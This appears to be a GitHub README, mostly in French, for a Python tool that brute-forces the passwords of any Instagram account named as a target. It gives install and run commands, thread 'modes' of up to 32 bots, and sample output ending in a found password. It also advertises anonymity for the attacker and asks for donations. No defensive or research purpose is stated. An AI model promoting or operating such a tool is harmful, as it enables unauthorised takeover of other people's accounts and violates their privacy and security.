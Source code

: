 # Instagram BruteForce

[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/AlexxModder)

Ce programme va forcer brutalement n’importe quel compte Instagram que vous l’envoyez à sa façon.
Il suffit de lui donner une cible, une liste de mots de passe et un mode, puis appuyez sur entrez et oubliez-le.
Pas besoin de s’inquiéter de l’anonymat lors de l’utilisation de ce programme, sa plus haute priorité est votre anonymat, 
il n’attaque que lorsque votre identité est cachée.


### Avis
Je ne maintiendrais plus ce projet.

### Soutenez-moi
> Portefeuille Bitcoin: 3JdbcHdKEV2xTmxoiwTd9xYxfQ7jBnGuB3 >> PayPal: https://www.paypal.me/AlexxModder

### Exigences
- Python v3.x.x
- ~~Kali Linux 2.0~~
- ~~Tor~~
### Installer des dépendances

```
pip3 install -r requirements.txt
```

### Aide
```
usage: instagram.py [-h] [-m MODE] username wordlist

optional arguments:
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```
### Utilisation

```
python3 instagram.py <nom> <wordlist> -m <mode>
```
### Bots (Threads)
- 4 bots: 64 mots de passe à la fois
- 8 bots: 128 mots de passe à la fois
- 16 bots: 256 mots de passe à la fois
- 32 bots: 512 mots de passe à la fois

### Modes
- 0: 32 bots
- 1: 16 bots
- 2: 8 bots
- 3: 4 bots
Mode chill
Ce mode n’utilise que 4 bots, soit 64 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 3
```
### Mode modéré 1

Ce mode utilise 8 bots, soit 128 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 2
```

### Mode modéré 2

Ce mode utilise 16 bots, soit 256 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 1
```

### Mode sauvage

Ce mode utilise 32 bots, soit 512 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 0
```

### Si vous ne spécifiez pas un mode, alors le mode est défini à 2

### ENGLISH                     

### Run                          
                                 
```                                                            
[-] Wordlist: password.lst       
[-] Username: AlexxLy            
[-] Password: 272                
[-] Complete: 34.80%             
[-] Attempts: 212                
[-] Browsers: 240                
[-] Exists: True                 
```                              
                                 
### Stop                         
                                 
```                                                            
[-] Wordlist: password.lst       
[-] Username: AlexxLy            
[-] Password: Alexx1212          
[-] Complete: 86.69%             
[-] Attempts: 345                
[-] Browsers: 192                
[-] Exists: True                 
                                 
[!] Password Found               
[+] Username: AlexxLy            
[+] Password: Alexx1212          
```
||### FRANCAIS

### Courrir

```                              
[-] Liste de Mots de passe: password.lst
[-] Nom d'utilisateur: AlexxLy
[-] Mots de passe: 272
[-] Completer: 34.80%
[-] Essayer: 212
[-] Browsers: 240
[-] Existe: OUI
```                              
                              
### Arrete
```                              
[-] Liste de Mots de passe: password.lst
[-] Nom d'utilisateur: AlexxLy
[-] Mots de passe: Alexx1212
[-] Completer: 86.69%
[-] Essayer: 345
[-] Browsers: 192
[-] Existe: OUI

[!] Mots de passe Trouver
[+] Nom d'utilisateur: AlexxLy
[+] Mots de passe: Alexx1212
